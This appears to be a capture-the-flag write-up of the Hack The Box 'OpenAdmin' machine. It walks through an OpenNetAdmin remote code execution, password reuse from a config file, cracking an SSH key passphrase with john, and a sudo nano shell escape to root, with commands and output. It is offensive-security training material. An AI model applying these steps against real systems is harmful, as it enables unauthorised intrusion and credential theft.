




---
tags:
  - linux
---
# HTB: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Summary with Spoilers
> - This machine included an exposed [OpenNetAdmin](https://github.com/OpenNetAdmin/ona) installation, which I exploited using a command injection vulnerability to gain RCE as the `www-data` user.
> - I pivoted to the `jimmy` user by discovering plaintext credentials in configuration files under `/opt/ona/includes/`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing execution of arbitrary commands as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing for directories uncovers `/music`, and a link from there led to `/ona`:



This is [OpenNetAdmin](https://opennetadmin.com/), with plenty of attack surface:

> OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. A full CLI interface is available as well to use for scripting and bulk work.

## RCE

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

In the server's web root, the file `local/config/database_settings.inc.php` contains database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for users `root` and `joanna`, neither of which worked, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php

jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:



That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:



The credentials `jimmy:Revealed` give us the private key for `joanna`:



There's a passphrase for the private key, and the previously discovered "ninja" password didnt work. So, I used `john` to crack it, which only takes a few seconds:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

Elevating privileges is possible via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv

joanna@openadmin:~$ file /opt/priv
/opt/priv: empty

joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a shell command via `^R^X` and passing `reset; sh 1>&0 2>&0`, which provides an interactive `root` shell.
